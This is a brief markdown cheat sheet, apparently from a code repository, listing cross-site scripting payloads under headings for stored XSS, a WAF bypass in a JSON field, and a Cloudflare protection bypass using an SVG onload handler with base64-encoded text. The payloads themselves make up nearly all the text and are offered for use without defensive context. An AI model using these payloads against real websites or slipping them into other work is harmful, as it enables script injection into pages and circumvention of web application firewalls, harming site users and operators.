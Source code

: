 ## Stored XSS
\u003e\u003cimg src=1 onerror=alert(0)\u003e

## WAF bypasses in JASON
["');alert('XSS');//"]@xyz.xxx

## Cloudflare Protection Bypas
"><Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBYU1MgQG1fa2VsZXBjZQ=="))>

